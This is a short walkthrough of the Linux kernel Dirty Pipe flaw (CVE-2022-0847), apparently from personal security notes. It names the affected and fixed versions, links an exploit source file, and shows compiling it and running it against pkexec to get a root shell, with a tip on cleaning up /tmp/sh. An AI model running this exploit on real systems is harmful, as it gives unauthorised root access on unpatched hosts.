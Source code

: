 # CVE-2022-0847

This is the story of CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.

It is similar to CVE-2016-5195 “Dirty Cow” but is easier to exploit.

The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102.

## Compiling

- [dirtypipez.c](../assets/files/dirtypipez.c)

```bash
$ gcc dirtypipez.c -o dirtypipez

$ file dirtypipez
dirtypipez: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f7aee8d04713d6c27bc73e3f5fb59b1eee5feeaf, for GNU/Linux 3.2.0, not stripped
```

## Exploiting

```bash
$ id
uid=1000(crypt0rr) gid=1000(crypt0rr) groups=1000(crypt0rr)

$ ./dirtypipez /usr/bin/pkexec
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
#
```

The vulnerable binary is run from /tmp/sh. Remember to remove it after using/re-using.

```bash
$ ls -l /tmp/sh
-rwsr-xr-x 1 root crypt0rr 186 Mar  8 10:19 /tmp/sh
```

## References

- [Dirtypipe.cm4all.com - The Dirty Pipe Vulnerability](https://dirtypipe.cm4all.com/)
- [Cve.mitre.org - CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)
- [Twitter.com - CVE-2022-0847 Dirty Pipe](https://twitter.com/jas502n/status/1500879361448493056?s=11)
